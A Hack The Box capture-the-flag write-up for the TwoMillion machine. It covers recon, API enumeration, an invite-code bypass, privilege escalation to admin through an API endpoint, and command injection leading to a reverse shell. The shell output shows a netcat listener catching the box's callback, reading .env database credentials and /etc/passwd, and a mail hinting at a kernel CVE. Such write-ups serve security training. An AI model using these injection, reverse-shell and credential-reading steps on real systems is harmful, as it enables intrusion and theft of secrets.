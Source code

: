 ```yaml
---
title: HTB TwoMillion - Writeup
date: 2025-07-15 13:53:00 +0330
categories: [Writeup]
tags: []
description:

---
```


![infocard](assets/img/twomillion_infocard.png)

## - **Introduction**
The initial process to get a foothold was to first find an invite code so that we can sign up, then we used an API endpoint to change our role to Administrator. After that, we find out that there is a Command Injection vulnerability in one of the admin endpoints and so we got a reverse shell from the box.

## - **Recon & Enum**
##### Port Scanning
To start off our recon we will begin with an Nmap scan of the machine:
```shell
$ sudo nmap -sC -sV -oN 2mil_nmap --min-rate=1000 10.10.11.221
```
```
Nmap scan report for 10.10.11.221
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

>I always perform a full scan with then `-p-` flag to make sure no port is left behind but I am not including that here as we only have two tcp ports open.
{: .prompt-info }

```shell
$ sudo echo "10.10.11.221\t2million.htb" >> /etc/hosts
```

>We need to add the 2million.htb hostname to `/etc/hosts`.
{: .prompt-tip }
---
##### Creating an Account and finding the vulnerability
After browsing the site for a bit, I found two interesting pages, `/login` and `/invite` but to actually sign up we needed an invite code.
So after analyzing the requests in burp, I noticed the api nodes.

![login](assets/img/twomillion_burp_login.png)
![verify](assets/img/twomillion_burp_verify.png)
so I tried brute forcing api endpoints using gobuster and I found `/api/v1/invite/generate`.
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
```
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/invite
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/verify               (Status: 405) [Size: 0]
/generate             (Status: 405) [Size: 0]
Progress: 18806 / 1273833 (1.48%)
```
So I used burp to send a POST request and got a response with an invite code (base64 encoded).

![invitecode](assets/img/twomillion_burp_invite.png)

After creating an account and logging in, only a few pages were accessible. I got a little stuck at first but when I tried accessing `/api` again, it authorized and I got a view of every API endpoint.

![api](assets/img/twomillion_api_v1.png)

Here `/admin/setting/update` caught my eye , I started playing around with it in burp and changed my role to admin.


![update](assets/img/twomillion_burp_update.png)

## - **Foothold**
Now this is were I got stuck for quite some time, but eventually I got it.  
The `/api/v1/admin/vpn/generate` and `/api/v1/user/vpn/generate` endpoints interact with the OS, so I tried injecting commands.
Though I have to say at first I didn't see it because the responses were empty. To make sure, I set up a `netcat` listener and made a request back to myself.

![update](assets/img/twomillion_cmd.png)

```shell
$ nc -nvlp 9070         
```
```
listening on [any] 9070 ...
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 52748
GET / HTTP/1.1
Host: 10.10.16.42:9070
User-Agent: curl/7.81.0
Accept: */*
```

And here comes the reverse shell...
```
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 42046
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```

## - **User**
Getting the user was just waaay too easy. Looking at the files in `html` folder, there is a `.env` file. What was inside you may ask, DATABASE CREDENTIALS!
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=*****************
```

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

And tada!

```
admin@2million:~$ cat user.txt
59f625d****************eebc95d5e
```

## - **Root**
Using linpeas and looking around myself I found an email which directly pointed to the vulnerability we'll use to escalate privileges.
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```